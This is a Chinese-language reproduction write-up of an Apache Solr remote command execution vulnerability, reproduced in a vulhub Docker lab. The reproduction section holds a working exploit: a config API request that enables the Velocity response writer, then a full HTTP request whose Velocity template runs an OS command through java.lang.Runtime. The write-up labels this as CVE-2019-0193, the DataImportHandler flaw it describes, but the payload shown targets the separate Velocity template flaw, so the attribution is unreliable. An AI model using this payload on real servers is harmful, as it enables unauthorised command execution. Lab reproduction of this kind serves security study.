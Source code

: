 ```yaml
---
description: CVE-2019-0193
---
```


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

以下内容来自「[是大方子-Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://note.youdao.com/ynoteshare1/index.html?id=59ba4b4d77327e0b12cfb9a67f114956&type=note)」，我看了他写的复现报告之后，认为写的还可以，并搭建环境完成了复现，具体内容如下：

## 0x00 准备工作

漏洞环境可以采用vulhub的github：

* [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193)

漏洞原理与分析可以参考：

* [https://mp.weixin.qq.com/s/typLOXZCev\_9WH\_Ux0s6oA](https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA)
* [https://paper.seebug.org/1009/](https://paper.seebug.org/1009/)

## 0x01 Solr简介

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

## 0x02 漏洞概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。本环境测试RCE漏洞。  
  
漏洞影响范围：Apache Solr &lt;= 8.2.0，Apache Solr 5.x - 8.2.0，存在config API版本

## 0x03 漏洞环境

运行漏洞环境：

```text
docker-compose up -d
```

```bash
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问环境

```text
http://10.26.231.203:8983/solr/#/
```

访问test的配置文件

![](../../.gitbook/assets/image%20%287%29.png)

```text
http://10.26.231.203:8983/solr/test/config
```

## 0x04 漏洞复现

访问上述网址并抓包并修改发送方式为POST，然后利用s00py公布的poc修改向config发送json配置继续修改

```text
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

{% hint style="danger" %}
注意：图示这2个位置要修改
{% endhint %}

![](../../.gitbook/assets/image%20%285%29.png)

然后就可以进行RCE

```text
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.26.231.203:8983
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Connection: close
```

![](https://note.youdao.com/yws/public/resource/59ba4b4d77327e0b12cfb9a67f114956/xmlnote/6A6CE5A6CCFA4F589061DB43FAF99AC4/73795)

